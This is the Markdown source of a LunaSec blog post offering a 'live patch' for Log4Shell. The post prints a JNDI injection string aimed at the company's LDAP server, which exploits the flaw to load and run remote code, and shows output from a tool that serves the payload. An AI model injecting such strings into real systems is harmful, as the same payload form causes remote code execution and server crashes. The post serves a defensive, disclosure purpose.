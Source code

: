 ```yaml
---
title: "How to Automatically Mitigate Log4Shell with LunaSec Live Patch (CVE-2021-44228 + CVE-2021-45046)"
description: By simply sending a string to your servers, you can temporarily patch the Log4Shell vulnerability.
slug: log4shell-live-patch
date: 2021-12-14
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors:
- name: Free Wortley
title: CEO at LunaSec
url: https://github.com/freeqaz
image_url: https://github.com/freeqaz.png
tags: [zero-day, security, data-security, data-breaches, guides]
- name: Chris Thompson
title: Developer at Lunasec
url: https://github.com/breadchris
image_url: https://github.com/breadchris.png
- name: Forrest Allison
title: Developer at LunaSec
url: https://github.com/factoidforrest
image_url: https://github.com/factoidforrest.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

**TL;DR:** This string will temporarily fix your systems by patching them against Log4Shell, but *please* read the rest
of this post before you use it!

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

## Why Log4Shell is an especially painful vulnerability

Mitigating a vulnerability in a single dependency used in one project is often difficult. Code must be written, tests must
pass, changes must be approved, it has to be deployed, and finally monitored. A vulnerability in a logging framework,
especially one as prolific as Log4j, is often not a single vulnerability, either. It's often not just a matter of updating
_your_ code, but also updating any of your dependencies that are _also using Log4j_.

## Living in Dependency Hell

Simply, one might ask, "Why not just update the dependency to the latest version?"

But updating all of your dependencies at once can be dangerous.

- What if you're several versions behind and the Log4j fix isn't ported to your version?
- What if changing that version causes your tests to not pass?
- What if you don't have tests to check correctness of the change... does that mean your app is suddenly broken?

These questions are what often keep organizations from updating their dependencies in the first place. A vulnerability
like Log4Shell forces you to not just patch the vulnerability in your code, but also deal with the (potentially years)
of tech debt that's attached to it.

## Down the rabbit hole...

But your vendors are also using Log4j. If your vendor software is a black box that runs locally on-prem or remotely in the cloud,
there is no way to simply "update" it to the latest version. You have no access to their source code or their dependencies.

You are left helpless until mitigation steps are given to you.

With this current Log4j fiasco, we've seen some vendors have
[recommended turning off their service](https://news.ycombinator.com/item?id=29562255)
until they have mitigated Log4Shell themselves.

Being left in the dark by a company you have paid to provide you a service isn't tolerable. Companies often depend deeply
on the vendor's software for their own business. It's simply not possible to just "wait" until it's patched.

## Stuck between worlds

All the while, while companies are panicked and struggling to hang on, attackers are getting more sophisticated with
their payloads. They are bypassing WAFs, the first line of defense, with
[increasingly sophisticated techniques](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words).

Not only that, they're also embedding themselves, discretely, into your infrastructure while you attempt to roll out
changes to fix issues.

The fallout from Log4Shell is going to take a _very_ long time to understand. We've
[barely even scratched the surface](https://arstechnica.com/information-technology/2021/12/as-log4shell-wreaks-havoc-payroll-service-reports-ransomware-attack/)
of what the real impact to society is going to be.

## A false sense of security

And, if you thought that was bad, I regret to inform you: That's not even the worst of the situation.

Even if you've managed to patch this, and your vendors have patched, it's still possible that
[another vulnerability is discovered](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046)
that undoes the mitigation work you've already put in place, resetting the cycle.

Log4Shell is a pernicious bugger, indeed!

## An unconventional silver lining

If you find yourself stuck between a rock and a hard place for fixing this issue at your company, you might find
yourself wishing for something better. Fortunately, the clever people of the internet have come up with a solution
that may help you remedy this painful situation.

By placing this string...

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

...anywhere you can in your infrastructure that you're vulnerable to Log4Shell, you will be rolling out a temporary fix
that gives you more time to patch.

We run that server, but it's been built due to the work of [many](https://github.com/hillu/local-log4j-vuln-scanner/)
smart [people](https://github.com/corretto/hotpatch-for-apache-log4j2) working on and dealing with the fallout
from Log4Shell. We've just made it a little easier for you to use by hosting it for you.

:::warn There be dragons!
This string will attempt to exploit the Log4Shell vulnerability and apply a patch to your live system. While this
patch has been tested on a number of systems, your system might be different and could possibly crash. You have been warned.

If it doesn't work for some reason, _your server will hang and possibly need a manual restart._
:::

## Running the Patch Code yourself

Since LunaSec is an Open Source company, we pride ourselves in being transparent in the work that we do.

You can [run the patch server yourself](https://github.com/lunasec-io/lunasec/releases/) by downloading our `log4shell`
CLI tool. And, if you're curious, you can review the full source code of this live patch service on
[our repo](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell).

**We'll be publishing a technical deep dive into our patch tool tomorrow, so [stay tuned](#stay-updated) for that.**

```shell
➜  log4shell git:(hotpatch-improvements) ./log4shell livepatch
9:19AM INF Payload URL not provided. Using the default payload url.
        defaultPayloadUrl: http://localhost:8000/
9:19AM INF Starting Log4Shell live patch LDAP and payload servers
9:19AM INF Once both servers have started, use payload string: '${jndi:ldap://localhost:1389/a}' to hotpatch your servers.
9:19AM INF Started live patch payload server
        addr: 0.0.0.0:8000
9:19AM INF Started live patch server
        addr: 0.0.0.0:1389
```

_(If you find this tool helpful, consider giving us a star, please! ;))_

## How does it work?

This string will trigger the Log4Shell vulnerability and attempt to [exploit it](https://www.lunasec.io/docs/blog/log4j-zero-day/).
Instead of your server being taken over by an attacker though, your server will actually be patched against further
exploitation.

While unorthodox, this is a very effective way to mitigate Log4j vulnerabilities, especially for any software you have no
control over (like your vendors).

:::info
We're also offering a paid, commercial service that will perform the same mitigation work for you, but is managed by us.

Please see our Live Patching service for more information, or [schedule a time](https://lunasec.youcanbook.me) to talk
with us about it.
:::

## Moving Forward

We have extensively written about [steps for mitigating Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide),
and we encourage you to refer to these steps as you work to address this vulnerability. We strongly urge you and
your team to work towards updating your Log4j versions to `2.16.0` as you are able to (even if you've migrated to
`2.15.0` already).

If you do find yourself stuck in Dependency or Vendor hell though, you can always try to use the
[Live Patch](#an-unconventional-silver-lining)
or [contact us](https://www.lunasec.io/contact) about help you with a custom solution instead.

We're living in unusual times, and it's not crazy to try something new!

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-15-log4shell-live-patch.mdx).
:::

